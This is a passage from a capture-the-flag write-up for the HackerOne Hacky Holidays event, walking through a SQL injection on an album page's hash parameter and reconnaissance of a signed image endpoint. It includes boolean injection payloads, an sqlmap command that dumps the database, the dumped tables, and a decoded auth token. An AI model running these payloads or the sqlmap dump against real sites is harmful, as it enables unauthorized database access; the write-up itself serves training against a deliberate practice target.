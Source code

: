 ### Step 1: SQL Injection #1 - hash
There was a fairly obvious SQL injection on the value of `hash`. I checked this manually with a simple boolean payload: `' AND 1=1;--`


 - 200, album loads: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27%20AND%201=1;--
 - 404: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27%20AND%201=0;--

I loaded up SQLMap and dumped the database:

`sqlmap -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k --dump`

```
Database: recon                                                                                                                                                                       
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+
```
```
Database: recon                                                                                                                                                                       
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```
### Step 2: recon on r3c0n
That was nice and all... but I still couldn't couldn't figure out how I was going to authenticate to the API. Let's dig around and see how this whole thing is set up. 

The `/picture` endpoints loaded in the albums look like this:
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2RiNTA3YmRiMTg2ZDMzYTcxOWViMDQ1NjAzMDIwY2VjLmpwZyIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9

And the `data` parameter contains the following JSON object:
```json
{
  "image": "r3c0n_server_4fdk59/uploads/db507bdb186d33a719eb045603020cec.jpg",
  "auth": "bbf295d686bd2af346fcd80c5398de9a"
}
```
Any attempts to modify the image URL and auth hash and resend the request resulted in `invalid authentication hash`. It seemed like it had to be generated the hash on the backend. 
